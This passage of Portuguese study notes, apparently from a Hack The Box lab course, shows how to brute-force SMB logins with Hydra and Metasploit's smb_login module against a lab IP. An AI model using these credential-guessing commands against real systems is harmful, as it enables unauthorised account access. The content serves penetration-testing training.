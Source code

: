 SMB é também conhecido como **Common Internet File System (CIFS)**, o que permite a conexão remota universal entre várias plataformas, como Windows, Linux e macOS. Uma implementação de código aberto do SMB é o **Samba**. Para SMB, ferramentas como o **Hydra** podem ser usadas para realizar ataques de força bruta, tentando diferentes combinações de nomes de usuários e senhas.

#### Hydra - PME
```shell-session
NycolasRamos@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

No entanto, também podemos receber o seguinte erro descrevendo que o servidor enviou uma resposta inválida.

#### Hydra - Erro
```shell-session
NycolasRamos@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197

<SNIP>

[ERROR] invalid reply from target smb://10.129.42.197:445/
```

Isso ocorre provavelmente a uma versão desatualizada que não lida com SMBv3. Podemos recompilar uma nova versão do hydra manualmente ou usar outra ferramenta poderosa, o Metasploit Framework.

#### Metasploit Framework
```shell-session
NycolasRamos@htb[/htb]$ msfconsole -q
```

```shell-session
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 
```
![[Pasted image 20240905185526.png]]

```shell-session
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
```
![[Pasted image 20240905185554.png]]

```shell-session
msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list
```
![[Pasted image 20240905185612.png]]

```shell-session
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
```
![[Pasted image 20240905185650.png]]

```shell-session
msf6 auxiliary(scanner/smb/smb_login) > run
```
![[Pasted image 20240905185707.png]]
